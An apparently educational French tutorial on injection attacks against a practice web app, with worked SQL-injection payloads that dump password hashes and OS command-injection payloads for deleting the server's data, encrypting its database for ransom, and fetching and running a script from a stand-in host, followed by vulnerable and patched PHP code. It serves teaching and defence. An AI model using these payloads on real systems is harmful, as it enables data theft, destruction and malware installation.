









# Injection

## Présentation
### Description

Les injections mènent souvent à exfiltration de données, exécution de code à distance (RCE) et compromission complète du service — il existe de nombreux CVE historiques listant des vulnérabilités d’OS command injection et d’SQL injection dans des équipements et logiciels exposés (ex. D-Link DNS-320, QNAP, etc.). Ces incidences montrent que, malgré l’attention portée au sujet, les failles d’injection sont encore exploitées en production.

## Quelques statistiques

L'injection (SQL, OS command, LDAP, etc.) reste l’une des familles de vulnérabilités les plus critiques et récurrentes dans les applications web. Dans l’OWASP Top-10 2021, la catégorie Injection a été testée sur 94 % des applications étudiées, avec ~274k occurrences détectées et des taux d’incidence moyens d'environ 3 %. 

## Exemples d'utilisation

Dans un premier exemple, nous allons vous montrer comment récupérer une base de donnée complète à l'aide d'une injection SQL. Dans un second exemple, nous allons vous montrer comment exécuter le code que l'on veut depuis le site, et ce que cela peut engendrer.

### 1. Injection SQL



Cette page est classique, elle demande à l'utilisateur un ID et renvoie le ```First name``` et le ```Surname``` de l'identifiant qui correspond à l'ID.

L'objectif est d'obtenir tous les mots de passe. Mais pour commencer simplement, on peut obtenir tous les utilisateurs.

#### a. Injection pour avoir tous les noms d'utilisateurs

```' or 1=1#```



Le ```'``` permet de finir le ```id='```. Comme il est vide, ce sera faux, mais on va contourner en ajoutant ```or 1=1``` qui est toujours vrai. Enfin ```#``` va permettre d'ignorer les potentiels restrictions qui suivent.

Nous allons maintenat chercher les mots de passe. Malheureusement, nous ne connaissons pas l'architecture de la base de donnée. Nous allons donc commencer par chercher les tables.

#### b. Injection pour obtenir les noms de toutes les tables

```' union select table_name,null from information_schema.tables#```



Nous avons à nouveau ```'``` et ```#``` et ils ont les même rôles que précédemment. Cependant, on fait un union avec une autre table, qui existe toujours et qui contient les noms des tables. Il apparait donc les différentes tables. On y remarque notemment la table ```users```. Il faut mettre ```,null``` car la fenêtre est sensée afficher ```First name``` et ```Surname```, donc 2 valeurs. Si on n'en récupérait qu'1, la fenêtre aurait crash.

#### c. Injection pour obtenir les noms de toutes les colonnes d'une table précise

```' union select column_name,null from information_schema.columns where table_name='users'```



De la même manière, on obtient les différentes colonnes qui constituent la table ```users```. On remarque une colonne nommée ```password```. On va donc faire une dernière injection pour trouver les mots de passe.

#### d. Injection pour obtenir tous les mots de passes

```' union select user,password from users#```



Nous avons finalement affiché les hashs des mots de passe des tous les utilisateurs. On reconnait l'encryptage MD5, peu sécurisé.

### 2. Injection de commande OS

Cette page est classique, elle demande à l'utilisateur une IP puis execute et renvoie le résultat de la commande ```ping```. Ci-dessous nous avons ping l'IP ```127.0.0.1``` car c'est à cette adresse que nous hébergeons le site. Le site se ping lui-même, ce qui renvoie donc un résultat correct.



Notre objectif dans cette situation va être d'éxécuter du code sur la machine qui héberge le serveur, pour au final en prendre le contrôle.

#### a. Principe de l'injection

On peut supposer que le site a prépapré une commande similaire à ```"ping " + champ``` et qu'il ne vérifie pas le contenu du champs entré par l'utilisateur. On va donc essayer le payload ```127.0.0.1 && dir``` pour voir s'il exécuter la seconde partie.



Heureusement le site a prévu de retirer tous les ```&&``` ou ```||```. Réessayons avec ```|``` suivi non pas d'un espace mais de la commande directement. 
```127.0.0.1 |dir```



On a réussi à exécuter une commande non prévue par le site. On peut continuer à faire ce que l'on veut.

#### b. Obtention d'informations

En naviguant dans les dossiers à l'aide de ```cd``` et ```dir```, on arrive à retrouver la base de données des utilisateurs que l'on a fouillé avec l'injection SQL. La commande ici est ```127.0.0.1 |dir ../../database```



#### c. Mise hors compétition par un compétiteur

Dans la situation où une entreprise concurrente arrive à trouver cette vulnérabilité et veut nous mettre hors compétition ou nous faire perdre notre image, elle pourrait nous faire perdre toutes nos données en exécutant ```127.0.0.1 |rm -rf /```.

#### d. Demande de rançon

Il serait aussi possible de faire une demande de rançon après avoir crypté la base de donnée trouvée précedemment en utilisant ```127.0.0.1 |openssl enc -aes-256-gcm -salt -in ../../database/sqli.db -out ../../database/sqli.db.enc -pass pass:PassWordChiffrementMechant```.

#### e. Installation de Malware

Enfin, on pourrait aussi cacher un malware dans le serveur pour miner pour nous du bitcoin ou quoi que ce soit d'autre en utilisant ```127.0.0.1 |curl https://malware.com/mw.sh``` puis ```127.0.0.1 |chmod +x mw.sh``` et ```127.0.0.1 |./mw.sh``` où ```mw.sh``` est un malware préalablement créé.

## Comment se défendre de ces attaques ?

### Injection SQL

#### Avant

Le code originel est en php. Voici la partie qui nous intéresse :
```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

try
{
    $results = $sqlite_db_connection->query($query);
}
```
On remarque bien que si on envoie ```' union select user,password from users#``` dans l'id, la requête exécutée est ```SELECT first_name, last_name FROM users WHERE user_id = '' union select user,password from users#';``` qui renvoie les mots de passe des utilisateurs.

#### Après correction

```
if(is_numeric( $id )) {
		$id = intval ($id);

        global $sqlite_db_connection;

        $stmt = $sqlite_db_connection->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id LIMIT 1;' );
        $stmt->bindValue(':id',$id,SQLITE3_INTEGER);
        $result = $stmt->execute();
        $result->finalize();
        ...
```
La première protection est de mettre une limite sur le nombre de ligne renvoyée avec ```LIMIT 1```. Cela évite d'afficher plusieurs données, quoi qu'il arrive.

La seconde protection est de vérifier que ```id``` est un nombre, cela évite de pouvoir écrire ce que l'on veut.

### Injection de commande

#### Avant

Toujours en php, voici le code qui nous intéresse.
```
$cmd = shell_exec( 'ping  -c 4 ' . $target );
```
On remarque bien que si on envoie ```127.0.0.1 |dir ../../database```, on obtient ```$cmd = shell_exec( 'ping  -c 4 ' . 127.0.0.1 |dir ../../database ); ```, à savoir que ```.``` est l'opération de concaténation de php. Le ping s'exécute correctement et la seconde partie de la commande, injectée, s'exécute en parallèle.

#### Après correction

Pour faire un ping de manière sûre, voici comment on peut faire :
```
$target = $_REQUEST[ 'ip' ];
$target = stripslashes( $target );

$octet = explode( ".", $target );

// Check IF each octet is an integer
if( ( is_numeric( $octet[0] ) ) 
 && ( is_numeric( $octet[1] ) )
 && ( is_numeric( $octet[2] ) )
 && ( is_numeric( $octet[3] ) )
 && ( sizeof( $octet ) == 4 ) )
 {
    $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

    $cmd = shell_exec( 'ping  -c 4 ' . $target );
    ...
```
Comme on veut recevoir une ip, et qu'elle a toujours la même forme int.int.int.int, on va essayer de couper au niveau des ```.``` ce qu'on reçoit en morceaux. S'il y a exactement 4 morceaux et qu'ils contiennent tous des entiers, alors seulement on exécute la commande voulue.